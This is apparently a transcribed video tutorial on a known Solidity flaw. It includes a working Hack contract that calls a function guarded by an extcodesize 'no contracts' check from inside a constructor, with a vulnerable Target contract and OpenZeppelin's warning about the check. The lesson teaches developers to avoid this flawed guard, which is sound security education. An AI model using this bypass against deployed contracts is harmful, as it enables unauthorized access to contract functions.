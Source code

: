 If the size of code stored at an address is zero then it can't be a smart contract right? This video explains how a smart contract protected from other smart contract using this check (checking code size is 0) can be bypassed.  

[#Hack](https://www.youtube.com/hashtag/hack) [#Solidity](https://www.youtube.com/hashtag/solidity) [#SmartContract](https://www.youtube.com/hashtag/smartcontract) [#Ethereum](https://www.youtube.com/hashtag/ethereum)

Code: [https://solidity-by-example.org/hacks...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa0Q2Ym53Z0dBaWZfd1QwUmNPNE9nTUlpQ1FCUXxBQ3Jtc0trVnNwM0V6c2IyeHdCWHp2UGRzbm8yamE4d2RUOHVURlVSd2Vtb0NwVUp4Ukdlb012a3BmOE90R1J4WDNoYXhqVERCamJteGNnMGNxT3hCOGNMcUJpbHJ4QlgwcTdpbnlRNTBDY2JBZEcwdGdnOWxvYw&q=https%3A%2F%2Fsolidity-by-example.org%2Fhacks%2Fcontract-size%2F&v=58Mnru9vRyU) 



```solidity
contract Target {
    function isContract(address account) public view returns (bool) {
        // This method relies on extcodesize, which returns 0 for contracts in
        // construction, since the code is only stored at the end of the
        // constructor execution.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```

Let's say I have a contract and I want this contract to be super secure. One other thing I have done to increase security for this contract is to not allow any other contracts to interact with this contract. Here I have a function called **protected** and it requires that msg.sender is not a contract, in this video, I'm going to show you how to hack this contract, how to bypass this **isContract** function, so that even though this function does not allow any other contracts to call this function, we still bypass this check and pwned the contract.

First of all, let's take a look at this **isContract** function, How does it check whether msg.sender is an externally owned account or whether it is an actual contract? Here the function **isContract**, it takes an address of the account and if the account is in contract then it returns true, otherwise it returns false, the way it checks whether the account is a contract or not is by checking the code size stored at the address of this account, and the size of the code store at this address can be found by using assembly and then calling a function **extcodesize**, this will return the size of the code, and we'll check that the size of the code is greater than zero. If the size of the code is greater than zero, then we know that there's some kind of code stored at this address, otherwise, there's no code, so we safely assume that this address is an externally owned account.

That is how this check works. So if you go back to this function, it will check that the code store at msg.sender is equal to zero, which means that msg.sender is not a contract and if it's not a contract, then we'll set the **pawn** to true.

```solidity
contract FailedAttack {
    // Attempting to call Target.protected will fail,
    // Target block calls from contract
    function pwn(address _target) external {
        // This will fail
        Target(_target).protected();
    }
}
```

To show you that this protection works for existing contract, I've created another contract that will call this function, when we call the function **pwn**, when we call this function, we expect this transaction to fail, because this protection will kick in.

![](failedattack.png)

So when I call this pawn function that you see over here and then we check the transaction log, you can see here that this wasn't a failed attack.

So now I'm going to show you how to bypass this check and we'll be able to hack this function (指protected) and this contract (指Target), the way to bypass this check is if the code size at the address is equal to zero, for existing contracts this will return a size that is greater than zero, but there is one exception ***when the contract is being deployed in the exact same transaction, when this function is called, the size will be equal to zero***, and we will be able to bypass this check.

```solidity
contract Hack {
    bool public isContract;
    address public addr;

    // When contract is being created, code size (extcodesize) is 0.
    // This will bypass the isContract() check
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        // This will work
        Target(_target).protected();
    }
}
```

For example, if we call this function inside another constructor of another contract, the size will be equal to zero. Here, I've created a contract to do exactly that. When this contract is deployed, the constructor will be called and we'll call the **protected** function, and to show you that the function **isContract** returns false, we'll store the result in a state variable called ***isContract***.

![](ataddresssuccess.png)

All right, let's deploy this hack contract, we're going to need the address of the **Target** contract, so I'm going to copy it from here and then paste it here and then deploy the **Hack** contract. Let's check the transaction logs, the transaction was successful, meaning that we were able to deploy the **Hack** contract.

Finally, let's check that we were able to pwned the **Target** contract, so I'm going to open the target contract and then click down pwn and it is equal to true. We also check on this state variable, and check that isContract is equal to false, so I'm going to open the **Hack** contract and click on isContract and it's equal to false.

So, in summary, we were able to call a function that does not allow smart contracts to call it, and the way we were able to do that was by calling this function inside the constructor.

```solidity
    /**
     * @dev Returns true if `account` is a contract.
     *
     * [IMPORTANT]
     * ====
     * It is unsafe to assume that an address for which this function returns
     * false is an externally-owned account (EOA) and not a contract.
     *
     * Among others, `isContract` will return false for the following
     * types of addresses:
     *
     *  - an externally-owned account
     *  - a contract in construction
     *  - an address where a contract will be created
     *  - an address where a contract lived, but was destroyed
     * ====
     *
     * [IMPORTANT]
     * ====
     * You shouldn't rely on `isContract` to protect against flash loan attacks!
     *
     * Preventing calls from contracts is highly discouraged. It breaks composability, breaks support for smart wallets
     * like Gnosis Safe, and does not provide security since it can be circumvented by calling from a contract
     * constructor.
     * ====
     */
    function isContract(address account) internal view returns (bool) {
        // This method relies on extcodesize/address.code.length, which returns 0
        // for contracts in construction, since the code is only stored at the end
        // of the constructor execution.

        return account.code.length > 0;
    }
```

The smart contract library [openzeppelin-contracts](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol#L36) has this exact same function, here it is, It is mentioned here that the code size is zero during construction, so the takeaway for this video is that this function can be bypassed under these conditions, and just because you use this function does not protect their contract from other contracts.